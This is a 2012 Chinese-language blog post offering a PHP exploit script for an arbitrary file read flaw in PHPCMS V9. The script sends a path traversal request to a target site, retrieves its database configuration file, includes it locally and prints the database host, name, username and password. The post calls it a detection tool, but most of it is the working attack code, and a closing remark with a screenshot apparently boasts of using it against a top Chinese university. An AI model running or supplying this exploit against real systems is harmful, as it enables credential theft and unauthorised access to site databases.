 title: "phpcmsV9最新任意读文件漏洞利用工具"
id: 159
date: 2012-07-25 02:36:28
tags: 
- phpcmsv9漏洞
- 任意读取文件漏洞
categories: 
- 原创作品
- 技术文章
- 最新漏洞
---

<span style="color: #ff0000;">注意：本程序带有攻击性，仅供学习研究请勿当作非法工具使用，否则后果自负，</span><span style="color: #ff0000;">于本人无关！</span>

睡觉前去论坛上面看了下，爆出 phpcmsV9最新任意读文件漏洞 ，第一反映就是

完了，估计互联网上又不知道多少万用户数据被脱了~~

自己就写了一个此漏洞的检测工具方便站长们检测自己的站点是否存在漏洞。

代码：

```php
<?php
/**
 * PHPcms V9 任意文件读取漏洞检测工具
 * @author Return Blog: www.creturn.com
 * Email: master@creturn.com
 *
 * 注意本程序仅供学习参考，不得用于非法互动
 * 否则后果自负，与本人无关！
 */

function showInfo() {

print '
***********************************************
* PHPcmsV9 Read All File ExpTool By: Return
*
* Blog: www.creturn.com
*
* Email:master@creturn.com
*
* Example: php exp.php wwww.phpcms.cn
***********************************************
';
}

$exp = '/index.php?m=search&amp;c=index&amp;a=public_get_suggest_keyword&amp;url=asdf&amp;q=../../caches/configs/database.php';

//file_get_contents(''.$exp);
if(count($argv) &lt; 2){
 showInfo();
}else{

 $exp = 'http://'.$argv[1].$exp;
 $data = @file_get_contents($exp);
 @file_put_contents('expDatabase.php', $data);
 if(strstr($data,'&lt;html&gt;')){
 showInfo();
 echo 'Not found !';
 exit();
 };
 $database = include 'expDatabase.php';
 showInfo();
 $out = 'HostName: '.$database['default']['hostname']."n";
 $out .='DataBase:'. $database['default']['database']."n";
 $out .='UserName:'. $database['default']['username']."n";
 $out .='Password:'. $database['default']['password']."n";
 if(!empty($database)){
 echo "Found it! :nn";
 echo $out;
 }
 @unlink('expDatabase.php');
}
```
<!--more-->

国内第一名校，你懂得~~ ：

[![](http://www.creturn.com/asset/uploads/2012/07/phpcmsV9.jpg "phpcmsV9")](http://www.creturn.com/asset/uploads/2012/07/phpcmsV9.jpg)
